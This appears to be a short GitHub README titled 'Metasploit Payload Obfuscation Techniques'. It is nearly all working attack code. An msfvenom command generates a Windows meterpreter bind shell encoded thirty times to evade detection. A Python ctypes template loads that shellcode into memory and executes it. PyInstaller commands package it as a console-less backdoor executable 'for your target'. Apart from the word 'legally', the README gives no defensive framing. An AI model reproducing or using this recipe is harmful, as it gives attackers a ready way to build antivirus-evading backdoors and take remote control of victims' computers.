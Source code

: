 # Metasploit Payload Obfuscation Techniques:

<p align="center">
  <img width="600" height="300" src="https://user-images.githubusercontent.com/72598486/204439872-6f102e86-2172-4c3e-a0dd-e82bcca70711.png">
</p>

Utilize Metasploit's ```msfvenom``` to create your desired payload:

```bash
$ msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai '\x00' -i 30 RHOST=10.0.0.68 LPORT=9050 -f c | tr -d '"' | tr -d '\n' | more
```

Grab the string produced for creating your payload and plug it into the template below:

```python
from ctypes import *

shellcode = '<your shellcode, ex: \xda\xdc\xd9\>'
memorywithshell = create_string_buffer(shellcode, len(shellcode))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
```

Compile the backdoor with ```pyinstaller```

```bash
$ python configure.py
$ python makespec.py --onefile --noconsole shell_template.py
$ python build.py shell_template\shell_template.spec
```

This will produce your obfuscated payload which you can use on your target (legally)
